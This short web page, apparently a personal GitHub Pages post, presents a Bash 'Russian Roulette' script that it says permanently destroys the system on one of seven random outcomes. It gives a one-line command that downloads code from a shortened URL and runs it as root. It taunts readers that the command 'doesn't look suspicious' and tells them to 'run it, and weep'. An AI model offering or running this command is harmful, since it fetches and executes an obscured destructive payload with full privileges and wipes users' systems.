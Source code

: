 ### [Home](https://thycowlord.github.io)




# Russian Roulette in Bash
## The code
Simple, and easy. Unstoppable once it has started. You can find the code [here.](https://github.com/ThyCowLord/ThyCowLord.github.io/blob/master/code/bashyoheadin.txt).

## How it works
It has seven barrels. If the random number is four, the system is __permanently destroyed.__

## Execution
To run it type: 
> sudo bash <(curl -s -L https://git.io/vArE3).

It doesn't look suspicious, does it?
Run it, and weep.
